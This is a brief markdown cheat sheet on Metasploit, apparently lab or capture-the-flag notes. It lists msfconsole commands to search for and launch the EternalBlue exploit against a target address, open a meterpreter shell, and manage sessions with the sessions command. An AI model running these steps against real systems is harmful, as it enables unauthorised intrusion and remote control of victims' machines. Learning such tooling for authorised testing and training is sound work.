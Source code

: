 # Metasploit Exploitation
The basic commands of chosing an exploit and payload

```sh
msfconsole 
msf > search eternalblue
msf > use 0
msf > set payload 2
msf > set rhosts 10.10.10.10
msf > run
meterpreter > help
meterpreter > shell
```

`Ctrl + z` - Send to the backrgound

## Sessions

| Option | Description |
| ------ | ------------ |
| -C | Run a meterpreter command on the session |
| -c | Run a command on the session |
| -K | Kill everything |
| -k | Kill by id / range |
| -S | Search filter|
| -s | Run a script / module |
| -d | List all inactive sessions |
| -h | Help |
| -i | Set the session ID |
| -l | List sessions |
| -n | Name session by ID |
| -q | Quiet mode |
| -u | Upgrade shell to meterpreter session |
| -v | Verbose mode |
| -x | Eextended information |

When using ranges use `-` or `,` 
```sh
msf > sessions -i 1,3
msf > sessions -k 1-2,5,6
```



```sh
sessions
sessions -h
sessions -i <id>


